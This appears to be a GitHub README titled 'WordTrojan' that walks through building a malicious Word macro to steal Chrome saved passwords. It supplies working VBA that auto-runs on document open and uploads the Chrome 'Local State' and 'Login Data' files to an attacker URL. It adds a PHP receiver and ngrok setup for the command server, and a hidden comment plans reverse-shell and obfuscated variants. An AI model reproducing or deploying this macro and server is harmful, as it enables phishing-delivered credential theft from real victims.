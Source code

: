 # The word is yours





<div align=center>
<img src=https://github.com/ariary/WordTrojan/blob/main/img/logo.png width=180>
<br><strong><i>Malicious macro for the dummies<sup>*</sup></i></strong>
<br><sup>* In fact it is for me</sup> 

  🔫 <strong>•</strong> 🥷 <strong>•</strong> 🫖
</div> 


## Context

It is well-known that macro is a great vector of to execute malicious code on victim device. The approach is basically to make the victim open an MS document which will run code using Macro.

Macro are written in VBA which is a precompiled language (⇒ easy to reverse.. argh).

We suppose the victim is using Windows.

### What we want to do?

To discover a bit the macro world. Our aim is to steal credentials stored in the Chrome password manager. The scenario is the following:
* Transfer malicious word document to victim *(out-of-scope: use social-engineering,phishing, ..)
* Encourage them to open it + enable macro
  * The macro will retrieve the files containing credentials, then send them to C2 server
* On C2 server we will decrypt the credentials

## 🔫 Naive approach

- [Retrieve sensitive files and send it from word](#retrieve-sensitive-files-and-send-it-from-word)
- [Receive files on Attacker side](#receive-files-on-attacker-side)
- [Let's Contemplate the explosion](#lets-contemplate-the-explosion)
- [Caveat](#caveat)

> 💡 **Create Macro**: in your word document *View* > Macros > view macros > Edit

### Retrieve sensitive files and send it from word

The macro payload reads the differents files containing Chrome passwords and send them to C2 server. Translate it in VBA:
```VBA
Private Function pvPostFile(sUrl As String, sFileName As String, Optional ByVal bAsync As Boolean) As String
    Const STR_BOUNDARY  As String = "3fbd04f5-b1ed-4060-99b9-fca7ff59c113"
    Dim nFile           As Integer
    Dim baBuffer()      As Byte
    Dim sPostData       As String
 
    '--- read file
    nFile = FreeFile
    Open sFileName For Binary Access Read As nFile
    If LOF(nFile) > 0 Then
        ReDim baBuffer(0 To LOF(nFile) - 1) As Byte
        Get nFile, , baBuffer
        sPostData = StrConv(baBuffer, vbUnicode)
    End If
    Close nFile
    '--- prepare body
    sPostData = "--" & STR_BOUNDARY & vbCrLf & _
        "Content-Disposition: form-data; name=""uploadfile""; filename=""" & Mid$(sFileName, InStrRev(sFileName, "\") + 1) & """" & vbCrLf & _
        "Content-Type: application/octet-stream" & vbCrLf & vbCrLf & _
        sPostData & vbCrLf & _
        "--" & STR_BOUNDARY & "--"
    '--- post
    With CreateObject("Microsoft.XMLHTTP")
        .Open "POST", sUrl, bAsync
        .SetRequestHeader "Content-Type", "multipart/form-data; boundary=" & STR_BOUNDARY
        .Send pvToByteArray(sPostData)
        If Not bAsync Then
            pvPostFile = .ResponseText
        End If
    End With
End Function
 
Private Function pvToByteArray(sText As String) As Byte()
    pvToByteArray = StrConv(sText, vbFromUnicode)
End Function
```
(from [wqweto](https://wqweto.wordpress.com/2011/07/12/vb6-using-wininet-to-post-binary-file/))

Now call this function to send the files we want:
```VBA
Private Sub Malware()
    pvPostFile "https://[ATTACKER_URL]/upload.php?id=[TARGET_ID]", "C:\Users\" & Environ("username") & "\AppData\Local\Google\Chrome\User Data\Local State"
    pvPostFile "https://[ATTACKER_URL]/upload.php?id=[TARGET_ID]", "C:\Users\" & Environ("username") & "\AppData\Local\Google\Chrome\User Data\Default\Login Data"
End Sub

Private Sub Launch()
    Malware
End Sub

Sub AutoOpen()
    ' Becomes launched as first on MS Word
    Launch
End Sub

Sub Document_Open()
    ' Becomes launched as second, another try, on MS Word
    Launch
End Sub
```
`Document_Open` and `AutoOpen` are special functions which are automatically executed when the word document is open.

### Receive files on Attacker side

First let's create some files:
```shell
mkdir php
```

Now write thephp file in charge of receiving uploaded file (with `multipart/form-data`):
```php
// php/upload.php
<?php
$base_dir = dirname( __FILE__ ) . '/../Upload/' . $_GET["id"];
if(!is_dir($base_dir))
    mkdir($base_dir, 0777);
move_uploaded_file($_FILES["uploadfile"]["tmp_name"], $base_dir . '/' . $_FILES["uploadfile"]["name"]);
?>
```

Now launch your server and expose it (with `ngrok`, for test purpose only):
```shell
php -S localhost:8080 -t php

#On another tab
ngrok http 8080
```
Let's copy your ngrok https endpoint and replace `[ATTACKER_URL]` in the macro

### Let's Contemplate the explosion

Now open the word document (on a windows machine please) and **bang**, see that it has discreetly exfiltrated the documents on your attacking machine.

Now that we have what we want, proceed to password decryption on attacker machine (which is the cool part)

*.. to do*

### Caveat

* Our macro payload lets a lot of information through that will allow a blue team to trace you easily as well as defend themselves
* Target must enable macros to trigger the payload *(sometimes it is by default sometimes not, don't ask me)*

## 🥷 On the road to stealth
*.. to do*

<!--Example of revershell macro in word document

See https://vunnm.files.wordpress.com/2018/09/article_macro_reverse_shell.pdf

And https://www.thedecentshub.tech/2021/08/reverse-shell-from-word-documents.html

Obfuscation: https://connect.ed-diamond.com/MISC/misc-087/automatisation-d-une-obfuscation-de-code-vba-avec-vbad

For macro useful tool: https://github.com/CaledoniaProject/awesome-opensource-security/blob/master/office-tools.md
1. Create macro (reverseshell + social engineering)
2. Force victime to click on enable content
3. Get reverse shell

Faire aussi un payload qui récupère les mdp enregistrés par chrome ou Firefox -->
